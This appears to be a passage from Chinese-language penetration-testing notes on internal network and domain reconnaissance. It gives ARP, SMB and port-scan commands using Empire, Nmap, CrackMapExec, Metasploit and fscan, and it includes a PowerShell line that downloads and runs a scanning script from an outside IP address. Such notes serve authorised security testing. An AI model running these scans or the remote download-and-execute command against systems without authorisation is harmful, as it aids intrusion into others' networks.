 **powershell**

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/situational_awareness/network/Invoke-ARPScan.ps1

```bash
powershell.exe -exec bypass -Command "Import-Module .\arpscan.ps1;InvokeARPScan -CIDR 192.168.1.0/24"
```

**arp-scan**

```bash
arp-scan -interface=eth1 --localnet
```

#### SMB协议探测

**Nmap**

```bash
nmap -sU -sS --script smb-enum-shares.nse -p 445 192.168.1.119
```

**Crackmapexec**

```bash
默认为100线程：
crackmapexec smb 10.10.10.0/24
```

**msf**

```msf
msf6 > use auxiliary/scanner/smb/smb_version
```

### 域内端口探测

**MSF中的portscan模块**

**Nishang中的Invoke-PortScan模块**

```shell
powershell iex(new-object net.webclient).downloadstring('http://47.104.255.11:8000/Invoke-PortScan.ps1');Invoke-PortScan -StartAddress 10.10.10.1 -EndAddress 10.10.10.255 -ResolveHost -ScanPort
```

## 工具信息收集

### Fscan

https://github.com/shadow1ng/fscan

简单用法

```shell
fscan.exe -h 192.168.1.1/24 (默认使用全部模块)
fscan.exe -h 192.168.1.1/16 (B段扫描)
```
